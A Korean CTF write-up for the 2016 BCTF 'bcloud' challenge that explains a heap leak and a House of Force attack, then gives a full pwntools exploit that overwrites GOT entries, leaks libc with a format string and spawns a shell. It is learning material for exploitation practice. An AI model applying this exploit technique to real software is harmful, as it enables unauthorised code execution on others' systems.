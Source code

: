```yaml
---
title: "2016 BCTF bcloud"
date: 2020-3-6
ctf: BCTF
layout: post
---
```


처음에 name 입력받을 때 꽉채워버리면 heap주소가 붙어있어서 leak해줄 수 있고 바로 뒤에 orgs를 꽉채우고 host에 0xffffffff를 보내면 topchunk를 덮어버릴 수 있다.`house of force` 취약점으로 atoi@got를 printf@plt로 덮어서 fsb로 libc leak 해주고 또 printf를 system함수로 덮고 인자로 /bin/sh\x00 넘기면 쉘 딸 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./bcloud')
p = process('./bcloud')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
content = 0x0804B0A0
orgs = 0x0804B0C8
names = 0x0804B0CC
idk = 0x804B0E0
note = 0x0804B120
hosts = 0x0804B148

def create(size,content,mode='1'):
	sla('>>','1')
	sla(':\n',str(size))
	if mode == '0':
		sa(':\n',content)

def edit(idx,content):
	sla('>>','3')
	sla(':\n',str(idx))
	sla(':\n',content)

def delete(idx):
	sla('>>','4')
	sla(':\n',str(idx))

def syn():
	sla('>>','5')

def quit():
	sla('>>','6')

sa('Input your name:\n','A'*64) # names
p.recvuntil('A'*64)
heap = u32(p.recv(4))
log.info('heap leak : {}'.format(hex(heap)))
topchunk = heap + 0xd8

sa('Org:\n','B'*64)
sla('Host:\n',p32(0xffffffff))

hof = e.got['atoi'] - topchunk - 0xc
create(hof,'AAAA')
create(8,'A'*4+p32(e.plt['printf']),mode='0') # atoi@got -> printf@plt

p.sendlineafter('>>','%p.%p.%p!%p.%p')
p.recvuntil('!')
stdout = int(p.recv(10),16) # _IO_2_1_stdout_
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
log.info('libc_base : {}'.format(hex(libc_base)))

p.sendlineafter('>>','333')
sla(':\n','1')
sla(':\n','AAAA'+p32(libc_base + libc.symbols['system']))
p.sendlineafter('>>','/bin/sh\x00')

p.interactive()
```

<br />

## Reference

https://www.lazenca.net/display/TEC/The+House+of+Force

https://github.com/shellphish/how2heap